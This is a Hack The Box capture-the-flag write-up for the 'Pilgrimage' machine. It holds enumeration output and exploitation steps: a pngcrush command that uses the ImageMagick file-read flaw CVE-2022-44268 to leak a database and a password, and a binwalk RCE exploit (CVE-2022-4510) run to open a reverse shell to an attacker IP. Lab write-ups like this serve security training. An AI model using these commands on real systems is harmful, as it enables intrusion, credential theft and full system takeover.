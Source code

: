 # Challenge Name

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Pilgrimage
- **Difficulty:** Easy
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>tcp</summary>

```
nmap -sC -sV -v 10.10.11.219

22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0
| http-git:
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration


<details>
<summary>dir</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://pilgrimage.htb/'

/assets               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/assets/]
/vendor               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/vendor/]
/tmp                  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/tmp/]
```
</details>

## Foothold

### Web → `emily` 🚩

#### Searching for Vulnerabilities

- the nmap scan shows that a Git repository is accessible at `/.git`, we can download the repository using [GitTools](https://github.com/internetwache/GitTools)
- the `index.php` from the Git repository shows that an SQLite database is being accessed at `/var/db/pilgrimage`
    
    ```php
    $db = new PDO('sqlite:/var/db/pilgrimage');
    ```
- The website can compress uploaded images. A compressed image can be downloaded and analyzed with `identify`:
    
    ```
    identify -verbose image.png
    
    ...
    Version: ImageMagick 6.9.11-60 Q16 aarch64 2021-01-25 https://imagemagick.org
    ```
- The website uses ImageMagick 6.9.11, for which an exploit for **LFI (local file inclusion)** exists *(CVE-2022-44268)*
    - https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

#### Exploitation

1. Generate an image using `pngcrush` to leak contents of SQLite database `/var/db/pilgrimage`:
    
    ```bash
    pngcrush -text a "profile" "/var/db/pilgrimage" image.png
    ```
2. After uploading the generated image, we can download the compressed version of it and analyze it using `identify -verbose`. At the end of the output we can see a large block of hex values:
    
   <p align="center"><img src="assets/identify-output.png" width="400"></p>
4. Decoding the hex block e.g. using CyberChef will reveal credentials:
    - username: `emily`
    - password: `abigchonkyboi123`
5. With these credentials we can login via ssh as `emily`. 🚩

## Privilege Escalation

### `emily` → `root` 🏁

#### Searching for Vulnerabilities

- `ps aux` shows a suspicious process running from root:
    
    ```
    root         690  0.0  0.0   6816  2984 ?        Ss   05:42   0:00 /bin/bash /usr/sbin/malwarescan.sh
    ```
- the script `malwarescan.sh` executes the command `binwalk` on every file that is uploaded under `/var/www/pilgrimage.htb/shrunk/`
- an exploit exists for the version of `binwalk` that enables **RCE (remote command execution)** *(CVE-2022-4510)*:
    - https://www.exploit-db.com/exploits/51249

#### Exploitation

1. We can use the [exploit](https://www.exploit-db.com/exploits/51249) to create a manipulated PNG file containing a RCE for a reverse shell:
    
    ```bash
    python3 51249.py Example.png 10.10.16.3 9002
    ```
2. After uploading `binwalk_exploit.png` in `/var/www/pilgrimage.htb/shrunk/` on the target, we get reverse shell access for root. 🏁
